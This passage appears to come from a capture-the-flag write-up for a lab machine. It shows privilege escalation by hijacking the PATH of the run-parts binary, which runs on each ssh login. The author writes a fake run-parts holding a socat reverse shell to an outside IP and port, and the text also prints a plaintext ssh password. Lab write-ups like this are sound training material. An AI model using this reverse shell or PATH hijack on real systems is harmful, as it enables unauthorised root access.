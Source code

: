 The __`run-parts`__ binary is run and the weird thing about it is that it is passed through a call on __`/usr/bin/env`__ with the __`-i`__ (__`--ignore-environment`__) option enabled. The __`-i`__ option enables the user to set environment variables from scratch or to create a unique setup when running an executable.

This series of events happens everytime a connection via <strong style="color:orange">ssh</strong> is established. 

```console
jkr@writeup:~$ env | grep PATH

  PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

jkr@writeup:~$ find / -name run-parts -type f 2>/dev/null

  /bin/run-parts

```

The __`run-parts`__ binary is located in the __`/bin/`__ directory which is already set in the actuale __`$PATH`__ environment variable. The one being run when connecting via <strong style="color:orange">ssh</strong> includes __`/usr/local/sbin/`__, __`/usr/sbin/`__, and __`/sbin/`__. 

The <strong style="color:orange">PATH</strong> environment variable is useful when running a binary since instead of calling an executable using its absolute path, calling only the executable's name would suffice. 

Maybe the exploit lies on how the environment variable, __`$PATH`__, is set for the __`run-parts`__ binary.

```console
jkr@writeup:~$ find / -type d -writable 2>/dev/null | grep bin

  /usr/local/bin
  /usr/local/sbin

```

Both __`/usr/local/bin`__ and __`/usr/local/sbin`__ are included when calling __`run-parts`__ and it's both writable. It's possible to create another executable with the same name in either of the aforementioned directories.

Since the __`run-parts`__ binary is run with reference to the __`$PATH`__ environment variable, then maybe the first occurence (since __`/usr/local/bin`__ and __`/usr/local/sbin`__ are listed before __`/bin`__) or all occurences of the __`run-parts`__ binary found in __`$PATH`__ will be executed.

```console
jkr@writeup:~$ echo -e '\x23\x21/bin/sh\nsocat TCP-CONNECT:10.10.15.13:4444 EXEC:sh,pty,stderr,setsid,sigint,sane' > /usr/local/sbin/run-parts

jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
```

Connect again via __`ssh`__:

```console
$ ssh -l jkr 10.10.10.138
$ jkr@10.10.10.138's password: raykayjay9

jkr@writeup:~$ 

```
